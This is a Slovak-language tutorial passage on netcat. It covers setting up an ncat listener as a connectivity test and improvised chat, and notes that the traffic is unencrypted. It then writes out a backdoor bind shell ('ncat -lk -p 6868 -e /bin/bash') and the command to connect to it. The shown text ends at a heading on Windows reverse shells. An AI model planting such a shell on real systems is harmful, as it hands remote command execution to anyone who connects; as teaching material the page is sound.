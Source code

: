 Na jednom PC  pustíme LISTENER:
``` bash
sudo apt-get update
sudo apt-get install ncat

ncat -lk -p 6868   # počítač počúva na porte 6868 na svojej IP

```


Na druhej strane  sa napojíme na LISTENER a začneme mu posielať data v podobe súboru alebo textu.
``` bash
ncat IP_ADRESA PORT
```


>[!info] 
>SYSADMIN:  Okrem toho, že sme preverili, že oba počítač sa vedia spojiť vznikol ako vedľajší produkt improvizovaný CHAT. Komunikácia pomocou textu funguje OBOJSMERNE.
> 

>[!warning  ]
>### ITSEC: NETCAT POSIELA DÁTA NEŠIFROVANE  !!! Pokiaľ chceš použiť šifrovanie použi program Cryptocat


Netcat je často nainštalovaný na množstve počítačov a umožňuje skenovať sieť, vytvárať rôzne improvizované sieťové kanály, kontrolovať priehodnosť siete a pod. Má mnoho variácii a mien nc, ncat, netcat

>[! warning]
>HACKER: Najnebezpečnejšia funkcia NETCATU je  možnosť po pripojení vykonať nejaký príkaz v shelly. Napríklad   -e /bin/bash nám umožní ovládať Linuxový počítač cez terminál a zadávať mu príkazy.  Na windowse ho treba smerovať na cmd.exe alebo Powershell 
> 


Na PC kde chceme mať zadné vrátka:
``` bash
sudo apt-get update
sudo apt-get install ncat

ncat -lk -p 6868 -e /bin/bash  # počítač počúva na porte 6868 na svojej IP

```


Na druhej strane  
``` bash
ncat IP_ADRESA PORT
```


>[!info] 
>HACKER:  Tento prístup je však limitovaný a umožňuje iba jednoduché príkazy v shell


### D.2 REVERZNÝ SHELL NA WINDOWS

Väčšina sietí ma striktne nastavenú politiku čo može do siete sby sme ju ochránili od vonkajších hrozieb. Najväčšia bezpečnostná hrozba je však vo vnútri siete, nepreškolený alebo hlúpy užívateľ prípadne priveľmi sebavedomý SYSADMIN.
